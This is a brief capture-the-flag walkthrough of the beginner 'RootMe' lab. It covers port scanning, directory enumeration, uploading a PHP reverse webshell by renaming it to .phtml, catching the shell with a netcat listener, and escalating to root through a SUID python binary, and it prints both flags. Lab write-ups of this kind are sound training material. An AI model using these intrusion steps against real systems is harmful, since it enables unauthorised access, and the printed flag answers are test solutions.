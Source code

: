 # RootMe

> A ctf for beginners, can you root me?

<br>

Process:
- 1) port scan machine:
  - `nmap -T4 <ip>`
  - open ports = **2**
  - `nmap -T4 -A -p 22,80 <ip>`
  - found 22:
    - service running = **ssh**
  - found 80:
    - version of apache = **2.4.29**
- 2) enumerate port 80:
  - find hidden directories:
    - `gobuster dir -u http://10.10.0.11 -w <wordlist>`
  - found hidden directory = **/panel/**
- 3) upload a php webshell to get a reverse shell:
  - download and adjust PHP reverse webshell from [PayloadAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
  - start netcat listener: `nc -lvnp 1234`
  - try to upload -- fail 
  - change file extension -- success with .phtml
  - execute shell by navigating to /uploads directory 
- 4) find user flag
  - `cat /var/www/user.txt` = **THM{y0u_g0t_a_sh3ll}**
- 5) escalate privileges
  - search for files with SUID permission set:
    - `find / -user root -perm /4000 2> /dev/null`
    - found: **/usr/bin/python**
  - exploit via GTFOBins code:
    - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
  - get root flag
    - `cat /root/root.txt` = **THM{pr1v1l3g3_3sc4l4t10n}**